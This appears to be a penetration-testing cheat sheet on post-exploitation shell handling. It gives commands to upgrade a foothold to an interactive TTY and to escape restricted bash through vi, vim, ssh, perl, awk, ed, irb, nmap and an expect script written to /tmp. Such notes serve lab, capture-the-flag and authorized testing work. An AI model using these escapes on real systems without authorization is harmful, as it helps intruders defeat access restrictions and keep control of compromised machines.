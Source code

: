 # Spawn a shell

**Again this is thanks to @S1REN and her code. Buy a coffee or a beer for Cat Mama**

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
#Keyboard Shortcut: 
Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset ; stty raw -echo ; fg ; reset
stty columns 200 rows 200
#* Grab a valid tty.
#* What OS are you on? 
#Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD* 
#Want a color terminal to easily tell apart file permissions? 
#Directories? Files?
#* Fastest way to list out the files in a directory, show size, show permissions, human readable.
```

**Is this rbash** (*Restricted Bash*)**?** PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

**Is this rbash** (*Restricted Bash*)**?** PT2
(*This requires ssh user-level access*)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(*Bash Shell*)

**Is python present on the target machine?**
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

**Is perl present on the target machine?**
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

**Is AWK present on the target machine?**
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

**Is ed present on the target machines?**
ed
!sh

**IRB Present on the target machine?**
exec "/bin/sh"

**Is Nmap present on the target machine?**
nmap --interactive
nmap> !sh

**Expect:**

```shell
expect -v  
    expect version 5.45.4  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash 
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh
```
